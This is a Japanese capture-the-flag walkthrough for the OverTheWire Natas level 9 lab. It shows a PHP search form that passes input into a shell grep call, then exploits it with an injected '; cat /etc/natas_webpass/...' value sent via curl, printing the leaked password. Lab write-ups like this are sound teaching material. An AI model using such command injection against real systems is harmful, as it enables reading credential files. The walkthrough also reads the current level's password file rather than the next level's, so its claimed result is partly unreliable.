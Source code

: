 # NATAS9

- Username: natas9
- Password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
- URL: http://natas9.natas.labs.overthewire.org

```
$ curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org
```
```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas9", "pass": "W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl" };</script></head>
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
ヒントに
```
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```
と書いてあります。  
ブラウザで`http://natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl@natas9.natas.labs.overthewire.org/index-source.html`にアクセスします。
```html
...
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>
...
```
コードをみると`$key`が空文字でなければ`dictionary.txt`の中に`$key`の値があるか判断しています。  
想定するコードは以下の通りです。()
```
$ grep -i ; cat /etc/natas_webpass/natas9 dictionary.txt
```
なので`key=; cat /etc/natas\_webpass/natas9`となるようにします。  
urlencodeするために`urlencode`という関数を定義します。
```sh
function urlencode {
  echo "$1" | nkf -WwMQ | sed 's/=$//g' | tr = % | tr -d '\n'
}
```
urlencodeを使ってパスをエンコードします。
```
$ urlencode "; cat /etc/natas\_webpass/natas9"
```
```
%3B%20cat%20%2Fetc%2Fnatas%5C%5Fwebpass%2Fnatas9
```
上で得たURLを使います。
```
$ curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl \
       -d "needle=%3B%20cat%20%2Fetc%2Fnatas%5C%5Fwebpass%2Fnatas9&submit=Search" \
          http://natas9.natas.labs.overthewire.org |
  head -n 30
```
```
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas9", "pass": "W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl" };</script></head>
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

African
Africans
Allah
Allah's
American
Americanism
Americanism's
Americanisms
```
これでpassword(`W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl`)を得ることができました。
